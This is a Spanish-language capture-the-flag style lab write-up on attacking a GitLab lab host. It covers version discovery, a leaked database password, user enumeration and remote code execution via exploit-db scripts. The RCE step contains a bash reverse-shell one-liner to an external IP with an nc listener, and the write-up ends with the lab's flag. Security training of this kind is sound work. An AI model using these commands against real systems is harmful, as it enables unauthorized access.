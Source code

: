 # Laboratorio: GitLab 🐱

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**
---
2. Creamos una cuenta con datos al azar, después de esto visitamos el directorio `/help` y podremos ver la versión de **GitLab** que se usa.

<p align="center">
    <img src="./assets/GitLab/01-Version.PNG">
</p>

---

3. Ahora vamos `/explore` y vamos al siguiente repositorio

<p align="center">
    <img src="./assets/GitLab/02-Repo.PNG">
</p>

---

4. Una vez en el repositorio anterior leemos el contenido del archivo **`phpunit_pgsql.xml`** en el cual veremos la contraseña de la **base de datos PostgreSQL**

* `phpunit_pgsql.xml`
```xml
<SNIP>
    <var name="db_password" value="postgres"/>
<SNIP>
```

---

# Laboraotorio: Attacking GitLab 🐱‍👤

1. Usaremos el script [user_enum.sh](https://www.exploit-db.com/exploits/49821) y el diccionario `/opt/useful/SecLists/Usernames/cirt-default-usernames.txt`
* `./gitlab.sh --url http://gitlab.inlanefreight.local:8081/ --userlist /opt/useful/SecLists/Usernames/cirt-default-usernames.txt`

**Output**
```python
<SNIP>
[+] The username DEMO exists!
<SNIP>
```

---

2. Para lograr un **RCE** primero crearemos una cuenta, y después usaremos [exploit.py](https://www.exploit-db.com/exploits/49951)

* Nos ponemos en escucha con **`nc -lvnp 4444`**
* `python3 rce.py -u [User] -p [Password] -c "bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'" -t http://gitlab.inlanefreight.local:8081`

---

3. Ahora leemos la **flag** 🏴
```bash
git@app04:~/gitlab-workhorse$ cat flag_gitlab.txt
s3cure_y0ur_Rep0s!
```